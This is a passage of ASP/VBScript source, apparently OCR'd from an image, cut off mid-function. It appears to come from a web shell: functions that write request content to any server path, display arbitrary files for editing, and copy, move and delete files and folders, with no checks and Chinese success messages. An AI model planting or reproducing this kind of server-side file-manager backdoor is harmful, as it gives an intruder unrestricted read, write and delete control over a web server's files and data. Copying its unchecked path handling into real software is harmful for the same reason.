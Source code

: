If Request("Action2")="Post" Then
Set T=CF.CreateTextFile(Path)
T.WriteLine Request.form("content")
T.close
Set T=nothing
SI="<center><br><br><br>保存成功！</center>"
SI=SI&BackUrl
j SI
Response.End
End If
If Path<>"" Then
Set T=CF.opentextfile(Path, 1, False)
Txt=HTMLEncode(T.readall) 
T.close
Set T=Nothing
Else
Path=Session("FolderPath")&"\code.asp":Txt=strBAD
End If
j "<Form action='"&URL&"?Action2=Post' method='post' name='EditForm'><input name='Action' value='EditFile' Type='hidden'><input name='FName' value='"&Path&"' style='width:100%'><br><textarea name='Content' style='width:100%;height:450'>"&Txt&"</textarea><br><hr><input name='goback' type='button' value='Back' onclick='history.back();'>&nbsp;&nbsp;&nbsp;<input name='reset' type='reset' value='Reset'>&nbsp;&nbsp;&nbsp;<input name='submit' type='submit' value='Save'></form>"
End Function
Function CopyFile(Path)
Path=Split(Path,"||||")
If CF.FileExists(Path(0)) and Path(1)<>"" Then
CF.CopyFile Path(0),Path(1)
SI="<center><br><br><br>"&Path(0)&"复制成功！</center>"
SI=SI&BackUrl
j SI 
End If
End Function
Function MoveFile(Path)
Path=Split(Path,"||||")
If CF.FileExists(Path(0)) and Path(1)<>"" Then
CF.MoveFile Path(0),Path(1)
SI="<center><br><br><br>"&Path(0)&"移动成功！</center>"
SI=SI&BackUrl
j SI 
End If
End Function
Function DelFolder(Path)
If CF.FolderExists(Path) Then
CF.DeleteFolder Path
SI="<center><br><br><br>"&Path&"删除成功！</center>"
SI=SI&BackUrl
j SI
End If
End Function
Function CopyFolder(Path)
Path=Split(Path,"||||")
If CF.FolderExists(Path(0)) and Path(1)<>"" Then
CF.CopyFolder Path(0),Path(1)
SI="<center><br><br><br>"&Path(0)&"复制成功！</center>"
SI=SI&BackUrl
j SI
End If
End Function
Function MoveFolder(Path)
Path=Split(Path,"||||")
If CF.FolderExists(Path(0)) and Path(1)<>"" Then
CF.MoveFolder Path(0),Path(1)
SI="<center><br><br><br>"&Path(0)&"移动成功！</center>"